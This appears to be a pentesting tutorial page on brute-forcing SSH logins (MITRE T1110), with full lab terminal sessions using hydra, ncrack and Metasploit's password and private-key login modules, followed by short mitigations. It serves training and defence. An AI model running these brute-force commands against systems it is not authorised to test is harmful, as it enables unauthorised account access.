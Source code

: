 ```yaml
---
title: SSH Pentesting -> Bruteforce
date: 2022-06-03 05:49:33 +0800
categories: [Infrastructure Pentesting, SSH]
tags: [infrastructure, pentesting, services, ssh, bruteforce]     # TAG names should always be lowercase
---
```


# Bruteforce: *mitre -> T1110*
***Bruteforce*** Is a technigue that uses trial-and-error to guess login credentials.

# Tools

These are some of the tools that are used to bruteforce ssh credentials.

- hydra
- ncrack
- metasploit

## hydra

[Hydra](https://www.kali.org/tools/hydra/) is a parallelized login cracker which supports numerous protocols to attack. It is very fast and flexible, and new modules are easy to add.

Syntax
> hydra -L [userfile] -P [password_file] ssh://[target_ip]

**bruteforcing ssh protocol with hydra**
```bash
┌──(cyberkhalid㉿kali)-[~/pentest]
└─$ hydra -L user.txt -P pass.txt ssh://192.168.43.234
Hydra v9.3 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-06-05 20:20:36
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 96 login tries (l:8/p:12), ~6 tries per task
[DATA] attacking ssh://192.168.43.234:22/
[22][ssh] host: 192.168.43.234   login: 'user1'   password: 'user1'
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 3 final worker threads did not complete until end.
[ERROR] 3 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-06-05 20:20:59	
```
## Ncrack

[Ncrack](https://www.kali.org/tools/ncrack/) Is a high-speed network authentication cracking tool. It was built to help companies secure their networks by proactively testing all their hosts and networking devices for poor passwords.

syntax 
> ncrack -U [userfile] -P [password_file] ssh://[target]

**bruteforcing ssh protocol with ncrack**
```bash
┌──(cyberkhalid㉿kali)-[~/pentest]
└─$ ncrack -U user.txt -P pass.txt ssh://192.168.43.234

Starting Ncrack 0.7 ( http://ncrack.org ) at 2022-06-05 20:29 EDT

Discovered credentials for ssh on 192.168.43.234 22/tcp:
192.168.43.234 22/tcp ssh: 'user1' 'user1'

Ncrack done: 1 service scanned in 21.01 seconds.
```

## Metasploit

[Metasploit](https://www.kali.org/tools/metasploit-framework/) Is an open source platform that supports vulnerability research, exploit development, and the creation of custom security tools.

**bruteforcing ssh protocol with metasploit**
```bash
msf6 auxiliary(scanner/ssh/ssh_login) > options

Module options (auxiliary/scanner/ssh/ssh_login):

   Name              Current Setting  Required  Description
   ----              ---------------  --------  -----------
   BLANK_PASSWORDS   false            no        Try blank passwords for all users
   BRUTEFORCE_SPEED  5                yes       How fast to bruteforce, from 0 to 5
   DB_ALL_CREDS      false            no        Try each user/password couple stored in the current database
   DB_ALL_PASS       false            no        Add all passwords in the current database to the list
   DB_ALL_USERS      false            no        Add all users in the current database to the list
   DB_SKIP_EXISTING  none             no        Skip existing credentials stored in the current database (Accepted: none, user, user&realm)
   PASSWORD                           no        A specific password to authenticate with
   PASS_FILE                          no        File containing passwords, one per line
   RHOSTS                             yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT             22               yes       The target port
   STOP_ON_SUCCESS   false            yes       Stop guessing when a credential works for a host
   THREADS           1                yes       The number of concurrent threads (max one per host)
   USERNAME                           no        A specific username to authenticate as
   USERPASS_FILE                      no        File containing users and passwords separated by space, one pair per line
   USER_AS_PASS      false            no        Try the username as the password for all users
   USER_FILE                          no        File containing usernames, one per line
   VERBOSE           false            yes       Whether to print output for all attempts

msf6 auxiliary(scanner/ssh/ssh_login) > set rhosts 192.168.43.234
rhost => 192.168.43.234
msf6 auxiliary(scanner/ssh/ssh_login) > set user_file /home/cyberkhalid/pentest/user.txt
user_file => /home/cyberkhalid/pentest/user.txt
msf6 auxiliary(scanner/ssh/ssh_login) > set pass_file /home/cyberkhalid/pentest/pass.txt
pass_file => /home/cyberkhalid/pentest/pass.txt
msf6 auxiliary(scanner/ssh/ssh_login) > exploit

[*] 192.168.43.234:22 - Starting bruteforce
[+] 192.168.43.234:22 - Success: 'user1:user1' 'uid=1000(user1) gid=1000(user1) groups=1000(user1),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),114(lpadmin),134(sambashare) Linux user1-VirtualBox 5.4.0-91-generic #102-Ubuntu SMP Fri Nov 5 16:31:28 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux '
[*] SSH session 2 opened (192.168.43.1:41713 -> 192.168.43.234:22) at 2022-06-05 20:40:02 -0400

[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
	
```
## Using private keys

**bruteforcing ssh protocol with metasploit using ssh-private keys**
```bash
msf6 auxiliary(scanner/ssh/ssh_login_pubkey) > options                                                                                                                
                                                                                                                                                                      
Module options (auxiliary/scanner/ssh/ssh_login_pubkey):                                                                                                              
                                                                                                                                                                      
   Name              Current Setting               Required  Description                                                                                              
   ----              ---------------               --------  -----------                                                                                              
   BRUTEFORCE_SPEED  5                             yes       How fast to bruteforce, from 0 to 5                                                                      
   DB_ALL_USERS      false                         no        Add all users in the current database to the list                                                        
   KEY_PASS                                        no        Passphrase for SSH private key(s)                                                                        
   KEY_PATH                                        no        Filename or directory of cleartext private keys. Filenames beginning with a dot, or ending in ".pub" wi  
                                                             ll be skipped. Duplicate private keys will be ignored.                                                   
   PRIVATE_KEY       /home/cyberkhalid/pentest/id  no        The string value of the private key that will be used. If you are using MSFConsole, this value should b  
                                                             e set as file:PRIVATE_KEY_PATH. OpenSSH, RSA, DSA, and ECDSA private keys are supported.                 
   RHOSTS            192.168.43.234                yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit             
   RPORT             22                            yes       The target port                                                                                          
   STOP_ON_SUCCESS   false                         yes       Stop guessing when a credential works for a host                                                         
   THREADS           1                             yes       The number of concurrent threads (max one per host)                                                      
   USERNAME          user1                         no        A specific username to authenticate as                                                                   
   USER_FILE                                       no        File containing usernames, one per line                                                                  
   VERBOSE           true                          yes       Whether to print output for all attempts                                                                 
                                                                                                                                                                                                                                                                                                 
msf6 auxiliary(scanner/ssh/ssh_login_pubkey) > set key_path /home/cyberkhalid/pentest/id                                                                              
key_path => /home/cyberkhalid/pentest/id                                                                                                                              
msf6 auxiliary(scanner/ssh/ssh_login_pubkey) > set key_pass Passsword@123                                                                                             
key_pass => Passsword@123                                                                                                                                                
msf6 auxiliary(scanner/ssh/ssh_login_pubkey) > exploit                                                                                                                
                                                                                                                                                                      
[*] 192.168.43.234:22 SSH - Testing Cleartext Keys                                                                                                                    
[*] 192.168.43.234:22 - Testing 1 key from /home/cyberkhalid/pentest/id                                                                                               
[+] 192.168.43.234:22 - Success: 'user1:-----BEGIN RSA PRIVATE KEY----- 
```
# Mitigations

- Enforce password policies.
- Set account lockout policies after a certain number of failed login attempts to prevent passwords from being guessed.
- Use multi-factor authentication.

# References

- [https://attack.mitre.org/techniques/T1110/](https://attack.mitre.org/techniques/T1110/)
- [https://www.kali.org/tools/hydra/](https://www.kali.org/tools/hydra/)
- [https://www.kali.org/tools/ncrack/](https://www.kali.org/tools/ncrack/)
- [https://www.kali.org/tools/metasploit-framework/](https://www.kali.org/tools/metasploit-framework/)
- [https://attack.mitre.org/mitigations/M1027/](https://attack.mitre.org/mitigations/M1027/)
- [https://attack.mitre.org/mitigations/M1032/](https://attack.mitre.org/mitigations/M1032/)
- [https://attack.mitre.org/mitigations/M1036/](https://attack.mitre.org/mitigations/M1036/)
